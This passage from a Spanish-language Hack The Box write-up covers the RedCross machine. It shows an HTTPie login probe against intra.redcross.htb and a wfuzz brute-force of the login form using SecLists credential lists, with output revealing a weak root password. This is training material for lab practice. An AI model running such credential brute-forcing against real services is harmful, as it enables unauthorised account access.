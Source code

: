![intra root](/img/htb-redcross/http-intra-root.png)

Agregaremos el fqdn 'intra.redcross.htb' en nuestro archivo /etc/hosts.

Podemos ver que tenemos un form hacia `/pages/actions.php` que recibe el user, pass y action. Mandemos una prueba via POST con las credenciales tradicionales de admin/admin:

```html
xbytemx@laptop:~/htb/redcross$ http --verify no -f POST "https://intra.redcross.htb/pages/actions.php" user=admin pass=admin submit=Login action=login
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 11
Content-Type: text/html; charset=UTF-8
Date: Tue, 19 Mar 2019 04:26:36 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Set-Cookie: PHPSESSID=v8fdc8aspa898iharh9t2occ27; path=/
refresh: 3;url=/

Wrong data!
```

Vemos que nos arroja el mensaje de error de `Wrong data!`, esto lo podemos meter a `wfuzz` para realizar un ataque de fuerza bruta a las credenciales de acceso:

```
xbytemx@laptop:~/htb/redcross$ wfuzz -c --hh 11 -z file,/home/xbytemx/git/SecLists/Usernames/top-usernames-shortlist.txt -z file,/home/xbytemx/git/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt -d 'user=FUZZ&pass=FUZ2Z&submit=Login&action=login' https://intra.redcross.htb/pages/actions.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: https://intra.redcross.htb/pages/actions.php
Total requests: 8483

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000039:  C=200      0 L	       2 W	     11 Ch	  "root - 1234567"
Fatal exception: Pycurl error 7: Failed to connect to intra.redcross.htb port 443: Connection refused
```
